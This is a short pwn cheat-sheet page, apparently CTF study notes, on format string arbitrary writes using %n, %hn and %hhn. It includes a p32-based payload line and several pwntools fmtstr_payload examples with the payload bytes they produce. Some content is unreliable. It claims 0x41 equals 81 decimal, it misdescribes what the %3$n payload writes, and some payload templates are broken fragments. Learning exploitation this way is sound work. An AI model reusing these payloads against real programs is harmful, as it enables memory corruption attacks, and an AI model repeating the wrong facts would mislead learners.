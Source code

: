 ```yaml
---
layout: default
title: Format string
tags:
  - pwn
---
```

## Arbitrary Write

The `%n` format specifier writes the total number of bytes printed so far to the location you specified. 

This mean that to write `0x41` which is `81` in decimal, It means that 81 characters must be written before the `%n` placeholder in order to make it write `0x41` at the targeted location.

>Note that the `%n` specifier will write an int size data at the targeted location so it will write `0x00000041` instead of `0x41`
	use :
>	- `%hhn` to write a char size data (1 byte)  
>	- `%hn` to write a short size data (2 bytes)

```c
printf("Hello%n", &len);
printf("%d", len); // will print  5
```


writing to a location

```python
payload = p32(0xdeadbeef) + b"%3$n"
```

will write `0xdeadbeef` to offset 3


```python
[target_address][target_address+2]%



payload = b'%{int(printf_got)} %{offset}$n '

[ADDR_LOW][ADDR_HIGH][PADDING1][%<OFFSET>$hn][PADDING2][%<OFFSET+1>$hn]


[addr][addr + 2][padding(%<num>x)][%<offset>$hn][$<offset+1>$hn]


Examples:

>>> context.clear(arch = 'amd64')

>>> fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int')

b'%322419390c%4$llnaaaabaa\x00\x00\x00\x00\x00\x00\x00\x00'

>>> fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short')

b'%47806c%5$lln%22649c%6$hnaaaabaa\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00'

>>> fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte')

b'%190c%7$lln%85c%8$hhn%36c%9$hhn%131c%10$hhnaaaab\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00'

>>> context.clear(arch = 'i386')

>>> fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int')

b'%322419390c%5$na\x00\x00\x00\x00'

>>> fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short')

b'%4919c%7$hn%42887c%8$hna\x02\x00\x00\x00\x00\x00\x00\x00'

>>> fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte')

b'%19c%12$hhn%36c%13$hhn%131c%14$hhn%4c%15$hhn\x03\x00\x00\x00\x02\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00'

>>> fmtstr_payload(1, {0x0: 0x00000001}, write_size='byte')

b'%1c%3$na\x00\x00\x00\x00'

>>> fmtstr_payload(1, {0x0: b"\xff\xff\x04\x11\x00\x00\x00\x00"}, write_size='short')

b'%327679c%7$lln%18c%8$hhn\x00\x00\x00\x00\x03\x00\x00\x00'

```